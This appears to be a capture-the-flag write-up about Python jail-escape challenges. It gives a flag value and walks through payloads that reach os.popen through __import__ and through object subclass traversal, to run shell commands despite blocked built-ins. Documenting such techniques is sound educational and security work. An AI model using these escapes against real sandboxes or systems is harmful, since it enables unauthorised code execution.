 
This challenge is meant to be a simple challenge that demonstrates the ability to get RCE even in one-liners. The
exploit is simple, based on the built-in `__import__`.

```py
print(__import__('os').popen('cat flag.txt').read())
```

Flag: `ACSI{vivivi}`

### Cult of vim

> **Hard challenge!**
>
> I thought exiting Vim was hard enough... now I can't even exit Python??  
>
> Your goal is to get a shell, good luck!  
>
> Author: Lucas

--- 

Now, we don't have access to any built-ins at all, not even `exit` or `__import__`! In addition, there is a blacklist on
numbers in our input... I wonder why?

To solve the built-ins issue, we need to learn about Python object hierarchy. In Python, everything is an object,
including seemingly simple things like strings and integers. This means that they all inherit from a base class which
can be accessed if we have access to the object itself.

Try this in your Python shell:

```py
''.__class__
''.__class__.__base__
''.__class__.__base__.__subclasses__()
''.__class__.__base__.__subclasses__()[137].__init__.__globals__
''.__class__.__base__.__subclasses__()[137].__init__.__globals__['popen']('ls').read()
''.__class__.__base__.__subclasses__()[137].__name__
```

1. The string is of `<class 'str'>`
2. `<class 'str'>` inherits from `<class 'object'>`
3. `<class 'object'>` can access a list of subclasses, including a notable `<class 'os._wrap_close'>`, which comes from
   the `os` module! On my system, this class is at index 137: try to find out what index it is on your system.
4. I can access the global namespace of the `os._wrap_close` function. This is significant as it allows me to jump to
   other functions like `popen`, which grants me RCE.
5. This payload will allow me to get RCE.
6. I can also access the name of the class (`"_wrap_close"`)

